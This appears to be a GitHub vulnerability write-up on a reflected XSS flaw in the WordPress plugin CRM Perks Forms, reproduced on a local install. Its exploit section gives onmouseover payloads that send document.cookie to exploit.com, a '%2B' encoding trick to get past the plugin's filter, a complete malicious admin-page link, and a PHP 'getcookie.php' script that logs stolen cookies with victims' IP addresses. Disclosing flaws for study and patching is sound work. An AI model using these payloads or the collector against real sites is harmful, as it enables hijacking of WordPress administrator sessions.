 0x01 Vulnerability description

    There is an XSS(Cross Site Scripting) vulerability in the wordpress plugin called CRM Perks Forms.
    An attacker inserts malicious code into a web-page URL.
    The code is triggered when user clicks the malicious links and move his mouse over the list area on the left of the web-page. 

0x02 Recurrence of the vulnerability

    This is tne main page of the plugin.
    First, click Add-New-Form to create a new form.
![1.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-1.png)

    Choose one template.
![2.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-2.png)

    This is the affected page with XSS vulnerability.
    You can see that my new form id is 66, yours may be 1, it doesn't matter, cause I have created it many times.
    So the affected web-page URL is: http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66
    Statement: This URL can be used regardless of whether you have created a form, and the id can be any number.
![3.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-3.png)

    Payload: "onmouseover=alert(1)//
    Enter the payload in the URL bar and move your mouse over the list area on the left of the web-page, an alert pop-up will appear.
    So, there is an XSS vulnerability.
![4.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-4.png)

「EXP」

Purpose: By clicking on the malicious URL link constructed by the attacker and moving mouse, the user will leak his own cookie.

    Change the payload to: "onmouseover=alert(document.cookie)//.
    We can see the user cookie information in the pop-up window.
![5.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-5.png)

    Build a listening server locally to receive the cookie information of the target user.
    Write a PHP script 'getcookie.php' on the server to remotely receive cookie information.
    The function of this script is to write the received cookie into the 'cookie.txt'.
    At this point the payload is: "onmouseover=location.href="http://exploit.com/get.php?cookie="+document.cookie//
    We extend the payload to the URL to make a request, find that there is no user's cookie in the 'cookie.txt' file of the remote server.
    Check the source code of the web-page and find that the '+' in the span tag is filtered.
![8.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-8.png)

    So try to convert '+' to URL encoding '%2B'.
    Construct a new payload: "onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    Enter payload in the URL bar.
![12.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/2023-04-22_23-12.png)

    Check the source code of the web-page again, '+' is not filtered out.
![9.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-9.png)

    Move my mouse over the list area, the web-page has been redirected.
![10.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-10.png)

    At this point, the user cookie has been sent to the local listening server.
![11.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-11.png)

    Merge the payload and URL to construct a malicious URL link:
    http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66?"onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    The user causes the leakage of his own cookie by clicking on the malicious link and moving mouse.
    
The simple 'getcookie.php' script:

    <?php
    $cookie = $_GET['cookie'];
    $ip = getenv ('REMOTE_ADDR');
    $time = date('Y-m-d g:i:s');
    $fp = fopen("cookie.txt","a");
    fwrite($fp,"IP: ".$ip." Date: ".$time."\nCookie:".$cookie."\n");
    fclose($fp);
    ?> 



   
    
